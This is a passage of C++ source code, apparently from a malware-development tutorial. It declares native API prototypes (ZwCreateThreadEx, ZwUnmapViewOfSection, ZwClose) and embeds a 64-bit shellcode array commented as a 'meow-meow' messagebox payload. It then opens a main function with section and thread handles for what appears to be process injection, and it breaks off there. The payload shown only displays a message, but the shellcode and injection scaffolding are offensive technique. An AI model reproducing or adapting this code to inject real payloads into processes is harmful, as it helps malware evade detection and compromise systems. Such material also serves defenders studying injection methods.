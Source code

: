 ```cpp

// ZwCreateThreadEx
typedef NTSTATUS(NTAPI* pZwCreateThreadEx)(
  _Out_ PHANDLE                 ThreadHandle,
  _In_ ACCESS_MASK              DesiredAccess,
  _In_opt_ POBJECT_ATTRIBUTES   ObjectAttributes,
  _In_ HANDLE                   ProcessHandle,
  _In_ PVOID                    StartRoutine,
  _In_opt_ PVOID                Argument,
  _In_ ULONG                    CreateFlags,
  _In_opt_ ULONG_PTR            ZeroBits,
  _In_opt_ SIZE_T               StackSize,
  _In_opt_ SIZE_T               MaximumStackSize,
  _In_opt_ PVOID                AttributeList
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
  OBJECT_ATTRIBUTES oa;
  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
```